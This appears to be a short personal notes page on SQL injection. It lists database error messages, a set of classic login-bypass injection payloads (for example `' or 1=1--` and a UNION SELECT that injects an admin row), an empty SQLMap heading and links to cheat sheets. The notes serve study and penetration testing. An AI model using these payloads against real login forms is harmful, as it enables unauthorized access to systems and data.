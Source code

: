 ```yaml
---
layout: default
title: SQLi
nav_order: 2 
parent: security stuff
permalink: /notes/security-stuff/sqli
---
```


1. TOC
{:toc}

## General info
There are four common database types: (each one will report errors in different ways)
1. MySQL
  - error example: `The used SELECT statements have a different number of columns`
2. MSSQL
  - error example: `All queries in an SQL statement containing a UNION operator must have an equal number of expressions in their target lists`
3. Oracle
  - error example: 
4. Postgre-SQL
  - error example: `Each UNION query must have the same number of columns`

---

## Injection (SQLi)
### Easy Injection Tests (aka Login Tricks)
 - `admin' --`  
 - `admin' #`  
 - `admin'/*`  
 - `' or 1=1--`  
 - `' or 1=1-- -`  
 - `' or 1=1#`  
 - `' or 1=1/*`  
 - `') or '1'='1--`  
 - `') or ('1'='1--`  
 - `'UNION SELECT 1, 'admin', 'password', 1--`  


### Automatic scanning with SQLMap

---

## Resources / More info
### Links  
#### Cheatsheets and more 
[SQLi Cheat Sheet - netsparker](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)  
[SQLi Cheat Sheet - pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
#### Good reads
[MSSQL Injection PWNage](https://www.exploit-db.com/papers/12975)
[Drupageddon](https://www.linuxjournal.com/content/drupageddon-sql-injection-database-abstraction-and-hundreds-thousands-web-sites)




